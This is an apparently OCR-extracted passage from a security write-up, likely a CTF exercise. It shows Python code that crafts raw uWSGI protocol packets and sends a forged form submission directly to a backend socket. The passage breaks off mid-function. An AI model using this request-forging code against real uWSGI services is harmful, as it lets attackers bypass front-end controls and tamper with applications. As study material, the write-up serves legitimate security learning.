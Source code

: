 We can write using the uwsgi protocol directly to the socket and manipulate the values.

```python
import sys
import argparse
import socket
import struct
from binascii import hexlify

assert sys.version_info[0] == 3, 'Use Python 3.'


def force_bytes(value):
    if isinstance(value, bytes):
        return value
    return str(value).encode('utf-8')


def encode_uwsgi_vars(values):
    """
    Encode a list of key-value pairs into an uWSGI request header structure.
    """
    # See http://uwsgi-docs.readthedocs.io/en/latest/Protocol.html#the-uwsgi-vars
    buffer = []
    for key, value in values:
        key_enc = force_bytes(key)
        val_enc = force_bytes(value)
        buffer.append(struct.pack('<H', len(key_enc)))
        buffer.append(key_enc)
        buffer.append(struct.pack('<H', len(val_enc)))
        buffer.append(val_enc)
    return b''.join(buffer)


def send_uwsgi_request(socket, header_content):
    data = encode_uwsgi_vars(header_content)
    header = struct.pack(
        '<BHB',
        0,  # modifier1: 0 - WSGI (Python) request
        len(data),  # data size
        0,  # modifier2: 0 - always zero
    )
    print(header)
    socket.sendall(header)
    socket.sendall(data)
    print(socket.sendall('csrf_token=Ijg3YjgyMTRhNDQxZTJhNWUyMTQ1NGI1OTIzYjNjOGEyYzAzMDFkMGQi.Xlv6qg.cxrU6xp-WQWDDj5_IzD-iF3D-70&textfield=alert&submit=Send'.encode('utf-8')))

def dump_from_socket(socket, width=32):
    while True:
        chunk = socket.recv(width)
        print(chunk)
        if not chunk:
            break
        print('%-*s  %s' % (
            width * 2,
            hexlify(chunk).decode(),
            ''.join(b if b.isprintable() else '.' for b in chunk.decode('ascii', 'replace'))
        ))


def talk_to_uwsgi(host, port, path):
    #s = socket.socket()
    #s.connect((host, port))
```